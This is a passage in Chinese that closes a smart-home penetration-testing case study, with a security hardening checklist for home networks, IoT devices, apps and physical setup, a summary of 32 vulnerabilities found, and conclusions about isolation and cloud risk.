□ WiFi使用WPA2-AES或WPA3（非WEP/WPA-TKIP）
□ SSID未暴露个人信息（如"张三家的WiFi"）
□ IoT设备位于独立VLAN/子网
□ 路由器UPnP功能已禁用
□ 路由器WPS功能已禁用
□ 远程管理（WAN侧）已禁用
□ DNS使用安全DNS（DoH/DoT）

[设备层 - 10项]
□ 所有设备默认密码已修改
□ 摄像头使用独立密码（非WiFi密码）
□ 门锁PIN码≥6位且定期更换
□ 不使用的功能已关闭（如Telnet、SSH）
□ 设备固件为最新版本
□ 摄像头未对公网暴露RTSP/HTTP端口
□ 智能音箱的语音购买功能已禁用
□ 门锁已启用自动锁定（超时自动上锁）
□ 不使用的设备已断电/移除
□ 设备日志中无敏感信息泄露

[应用层 - 7项]
□ 配套APP已更新至最新版本
□ APP登录启用双因素认证
□ 分享设备权限时使用访客模式（非管理员权限）
□ 定期审查已授权的第三方应用
□ 关闭不必要的云存储功能
□ 手机操作系统保持更新（安全补丁）
□ APP权限最小化（摄像头不需要通讯录权限）

[物理层 - 5项]
□ 摄像头安装位置避免对准敏感区域（卧室/浴室）
□ 路由器/网关放置在安全位置（非公共区域）
□ 应急钥匙保管在安全场所
□ 定期检查门锁物理状态（有无异常痕迹）
□ 废弃设备恢复出厂设置后销毁
```

---

#### 测试总结与关键发现

```plaintext
渗透测试结果统计：

发现漏洞总数：32
├── 高危（CVSS 7.0-10.0）：  9个（28%）
├── 中危（CVSS 4.0-6.9）：  14个（44%）
└── 低危（CVSS 0.1-3.9）：   9个（28%）

按攻击面分布：
├── 云端API：      5个漏洞（3个高危）
├── 网络服务：      7个漏洞（2个高危）
├── 固件：          6个漏洞（2个高危）
├── 无线协议：      6个漏洞（2个高危）
├── 移动APP：       5个漏洞（0个高危）
└── 物理安全：      3个漏洞（0个高危）

平均修复周期（预估）：
├── 高危：1-2周（需厂商配合推送固件更新）
├── 中危：2-4周
└── 低危：下个固件版本周期

关键结论：
1. 智能家居生态系统的最大风险不在于单个设备漏洞，
   而在于设备间缺乏隔离导致的"一点突破、全盘失控"
2. 云平台安全问题的影响面最广（一个API漏洞可能影响数百万设备）
3. 物理攻击手段（超声波注入、BLE重放）成本低但威胁大，
   仅靠软件防护不足以应对
4. 消费级IoT设备的安全更新机制普遍不完善，
   大量已知漏洞的设备长期暴露在网络中
```

本案例展示了一个完整的智能家居生态系统渗透测试流程。从侦察到漏洞利用再到防御加固，每个环节都体现了IoT安全的特殊性——攻击面广、协议多样、物理与数字威胁交织。对安全从业者而言，理解这些攻击技术是为了构建更安全的智能生活；对普通用户而言，遵循安全加固清单中的基础措施，就能显著降低被攻击的风险。
